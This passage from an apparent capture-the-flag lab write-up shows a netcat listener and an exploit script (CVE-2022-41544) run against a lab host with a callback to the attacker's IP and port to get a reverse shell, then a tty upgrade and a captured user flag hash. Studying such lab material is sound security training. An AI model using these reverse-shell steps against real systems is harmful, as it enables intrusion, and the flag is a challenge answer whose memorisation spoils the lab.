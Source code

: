 ```sh
nc -nvlp 1612
```
![[Pasted image 20240606101824.png]]

```sh
python3 CVE-2022-41544.py 10.129.47.83 / 10.10.14.79:1612 admin  
```
![[Pasted image 20240606101920.png]]

![[Pasted image 20240606101949.png]]

**Upgrading tty**
![[Pasted image 20240606102223.png]]
![[Pasted image 20240606102332.png]]
>[!FLAG]
>cat user.txt
>7002d65b149b0a4d19132a66feed21d8

